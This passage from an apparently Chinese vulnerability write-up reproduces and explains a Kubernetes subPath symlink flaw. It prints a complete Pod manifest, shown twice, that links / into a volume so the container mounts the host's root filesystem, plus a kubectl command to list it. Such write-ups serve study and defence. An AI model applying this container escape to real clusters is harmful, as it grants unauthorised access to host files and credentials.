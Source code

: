   ````yaml
   # exp.yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: my-pod
   spec:
     initContainers:
     - name: prep-symlink
       image: ubuntu
       command: ["bin/sh", "-ec", "ln -s / /mnt/data/testpath"]
       volumeMounts:
       - name: my-volume
         mountPath: /mnt/data
     containers:
     - name: my-container
       image: ubuntu
       command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
       volumeMounts:
       - mountPath: /mnt/data
         name: my-volume
         subPath: testpath
     volumes:
     - name: my-volume
       emptyDir: {}
   ````

   发现可以顺利运行容器，此时容器内/mnt/data/目录即为宿主机的根目录`kubectl exec -it my-pod -- ls /mnt/data`


### 漏洞分析

1. subpath的原理

   在启动容器时，k8s会将主机上/var/lib/kubelet/pods/\<pod uid>/volumes/\<volume type>/\<volume name>/拼接上subPath所表示的目录绑定到容器的/mnt/data目录下

2. 漏洞分析

   ````yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: my-pod
   spec:
     initContainers:
     - name: prep-symlink
       image: ubuntu
       command: ["bin/sh", "-ec", "ln -s / /mnt/data/testpath"]
       volumeMounts:
       - name: my-volume
         mountPath: /mnt/data
     containers:
     - name: my-container
       image: ubuntu
       command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
       volumeMounts:
       - mountPath: /mnt/data
         name: my-volume
         subPath: testpath
     volumes:
     - name: my-volume
       emptyDir: {}
   ````
